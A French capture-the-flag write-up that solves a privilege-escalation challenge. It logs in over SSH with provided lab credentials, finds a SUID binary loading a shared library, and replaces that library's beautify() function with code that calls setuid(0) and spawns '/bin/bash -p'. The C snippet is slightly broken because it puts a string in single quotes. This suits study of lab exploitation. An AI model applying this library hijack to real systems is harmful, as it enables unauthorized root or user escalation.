



# DARK HACKERLAB
> 500 points
> 
>[FR]
> 
>Trompez l'admin. Utilisez les identifiants de connexion suivants: Username:hackerlab, password:hackerlab.
> 
>[EN]
> 
>Fool the admin. Use the following login credentials: Username:hackerlab, password:hackerlab.
> 
> Author: 5c0r7

## Fonctionnement
Pour ce challenge, l'auteur a joint le code source d'un programme c. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include "hackerlab.h"

int main() {
    printf("Welcome to the dark part of Hackerlab. \nHere I register all the team and share some flag for free.\n");
    char team_name[100] = "";
    int choice;

    while (1) {
        printf("Do your choice.\n");
        printf("1- Register your team.\n");
        printf("2- Show you all the flag I have in my vault.\n");
        printf("3- Print team banner.\n");
        printf("4- Do joke.\n");
        printf("5- Exit.\n");
        printf("Your choice: ");

        if (scanf("%d", &choice) != 1) {
            printf("Bad type of choice.\n");
            break;
        }

        if (choice < 1 || choice > 5) {
            printf("Your choice ain't in my choice set.\n");
        } else {
            if (choice == 1) {
                printf("Enter your team name: ");
                scanf("%99s", team_name);
                printf("Team name registered successfully.\n");
            } else if (choice == 2) {
                printf("You're not allowed to see the flag.\n");
            } else if (choice == 3) {
                if (strlen(team_name) == 0) {
                    printf("You haven't set your team name yet.\n");
                } else {
                    beautify(team_name);
                }
            } else if (choice == 4) {
                printf("Nothing. I am not good at joking, not your clown.\n");
            } else if (choice == 5) {
                printf("You ask to exit, byyyyyye.\n");
                exit(EXIT_SUCCESS);
            }
        }
    }

    return 0;
}
```

Il s'agit d'un programme interactif qui commence par afficher un message de bienvenue et offre uniquement cinq options, notamment l'enregistrement d'un nom d'équipe, l'affichage du flag (indiquant que l'utilisateur n'est pas autorisé), l'affichage d'une bannière d'équipe (si elle est enregistrée) où une fonction `beautify` est appelée, le rejet de toute demande de blague, et la sortie du programme. Tout autre choix conduit à un message d'erreur. Le programme répète le menu interactif tant que l'utilisateur ne choisit pas l'option de sortie.

Mais il y a un hic 🥲. Il nous faut le header 'hackerlab.h' à inclus au niveau du préprocesseur.

En exploitant les identifiants de connexion, nous nous sommes connectés à la machine distante par ssh (`ssh -p 1020 hackerlab@54.37.70.250`). Nous avons ensuite essayé d'afficher le contenu du répertoire courant:



Notre tentative de lecture du fichier `.flag` a été échoué comme vous avez pu vous en douter 😂. C'était trop beau pour être vrai 😩. Jetons un coup d'oeil sur d'autres fichiers. Le fichier `so-shared` est un binaire muni d'un bit d'exécution `suid` pour l'utilisateur `scort`. Intéressant ! On pourrait l'exploiter pour du privesc. 
Pour obtenir plus d'informations sur le binaire, nous pouvons utiliser des outils dont `readelf`, `gdb` et `ldd`. 

Avec `ldd` nous constatons que `so-shared` utilise la librairie partagée `libhackerlab.so`.



Les autres outils ne nous ont pas été d'une grande utilité. La gentillesse de scort cachait bien un truc 🤣.

Par ailleurs, nous remarquons  la présence d'une chaine beautify lors de l'exécution de la librairie partagée à travers un `strings bash libhackerlab.so`. Il s'agit sûrement de la fonction `beautify()` déclarée dans le header `hackerlab.h`



## Solution

Pour réussir ce challenge d'escalation de privilèges, nous avons créé un fichier `hackerlab.c` qui contient une fonction `beautify` permettant d'obtenir un shell scort.
Elle reçoit en paramètre une chaine de caractères `team_name` et ne renvoie rien.

```
echo "#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void beautify(char team_name[]) {
    setuid(0);
    system('/bin/bash -p');
}
" > hackerlab.c
```

Ensuite, nous avons compilé le programme en une librairie partagée

```
gcc -shared -fPIC -o libhackerlab.so hackerlab.c
```

Enfin, nous avons créé un nom de team avec l'option 1 du menu interactif du programme `so-shared` puis choisi l'option 3. We got a shell with user scort id 😋.

Il ne nous reste plus qu'à afficher le fichier `.flag`


> Flag : CTF_1_lOve_sh4r3d_0bj3ct_s0_!_h1j4ck3d_4!|_th@t_sh17
